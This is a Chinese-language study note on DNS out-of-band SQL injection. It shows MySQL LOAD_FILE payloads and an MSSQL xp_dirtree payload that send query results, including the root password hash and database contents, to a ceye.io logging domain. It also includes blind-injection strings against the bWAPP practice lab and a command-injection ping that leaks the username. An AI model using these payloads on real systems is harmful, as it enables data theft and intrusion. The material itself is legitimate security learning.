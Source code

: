### DNS注入学习 ###
---
<b>简介:</b>
DNS注入就是在注入的时候通过数据库进行DNS查询，将查询到的数据解析到指定的域名。然后查询解析记录从而获取解析的内容

![](http://wenwen.soso.com/p/20110918/20110918090138-1871567267.jpg)


<b>准备:</b>

---
准备：域名（没有域名用） ceye.io
注意：一次传输的数据不能超过128byts，一些特殊字符显示不出来要进行编码处理

我的数据库环境：mysql 5.5.53

首先查询secure_file_priv是否为NULL，如果是load_file就不能加载文件
![](https://s2.ax1x.com/2019/03/18/AmE1Tf.png)

|序号|说明|
|---|-----|
|1|当secure_file_priv为空，就可以读取磁盘的目录|
|2|当secure_file_priv为G:\，就可以读取G盘的文件|
|3|当secure_file_priv为null，load_file就不能加载文件|


修改mysql的my.ini或my.conf在配置文件里面添加
secure_file_priv=''
![](https://s2.ax1x.com/2019/03/18/AmAjFU.png)

去ceye个人页面获取你的二级域名
![](https://s2.ax1x.com/2019/03/18/AmENlj.png)

ceye给出的payload
>SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));

解释:
```mysql
select load_file(concat('\\\\',(你的注入语句)'.xxx.ceye.io\\abc'))
```

ceye给出的payload详情：http://ceye.io/payloads


在mysql命令行插入：
```mysql
select load_file(concat('\\\\',(select hex(user())),'.xxx.ceye.io\\abc'))
```
![](https://s2.ax1x.com/2019/03/18/AmEyhF.png)

ceye查询传输过来的信息
![](https://s2.ax1x.com/2019/03/18/AmERXR.png)

hex解密得到用户名
![](https://s2.ax1x.com/2019/03/18/AmEfn1.png)

使用bwapp的搜索型注入进行盲注获取数据
![](https://s2.ax1x.com/2019/03/18/AmEH9e.png)

注入语句如下：
```mysql
admin%' and(load_file(concat('\\\\',(select database()),'.uqwo37.ceye.io\\abc'))) #
admin%' and(load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema="bwapp" limit 0,1),'.uqwo37.ceye.io\\abc'))) #
admin%' and(load_file(concat('\\\\',(select column_name from information_schema.columns where table_name="blog" limit 0,1),'.uqwo37.ceye.io\\abc'))) #
admin%' and(load_file(concat('\\\\',(select id from blog limit 0,1),'.uqwo37.ceye.io\\abc'))) #
```
![](https://s2.ax1x.com/2019/03/18/AmV8D1.png)

mssql注入
>限制:服务器操作系统为windows
mssql数据库支持master..xp_dirtree存储过程
mssql注入点支持多语句
mssql相对于mysql的优势在于可以执行系统命令，前提条件是需要支持master..xp_cmdshell存储过程
```mssql
DECLARE @host varchar(1024) @host=(你的SQL语句)+'.xxx.ceye.io';EXEC('master..xp_dirtree"\\'+@host+'\foobar$"');
```

<b>命令注入</b>

---
```shell
ping %USERNAME%.uqwo37.ceye.io
```
![](https://s2.ax1x.com/2019/03/18/AmZuZt.png)

学习的文章：
[巧用DNSlog进行注入](https://www.cnblogs.com/afanti/p/8047530.html)


纸上得来终觉浅，绝知此事要躬行